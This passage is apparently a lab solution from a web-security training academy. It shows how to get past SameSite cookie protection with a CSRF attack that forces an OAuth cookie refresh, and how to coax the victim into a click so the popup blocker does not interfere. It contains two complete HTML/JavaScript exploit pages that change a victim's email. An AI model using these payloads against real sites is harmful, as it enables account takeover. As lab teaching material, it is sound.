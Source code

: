 Bypass the SameSite restrictions

    In the browser, notice that if you visit /social-login, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.

    From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.

    Go back to the exploit server.

    Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit /social-login, then submits the email change request after a short pause. The following is one possible approach:
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="pwned@web-security-academy.net">
    </form>
    <script>
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);

        function changeEmail(){
            document.forms[0].submit();
        }
    </script>

    Note that we've opened the /social-login in a new window to avoid navigating away from the exploit before the change email request is sent.

    Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.

    Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

Bypass the popup blocker

    Realize that the popup is being blocked because you haven't manually interacted with the page.

    Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="pwned@portswigger.net">
    </form>
    <p>Click anywhere on the page</p>
    <script>
        window.onclick = () => {
            window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
            setTimeout(changeEmail, 5000);
        }

        function changeEmail() {
            document.forms[0].submit();
        }
    </script>
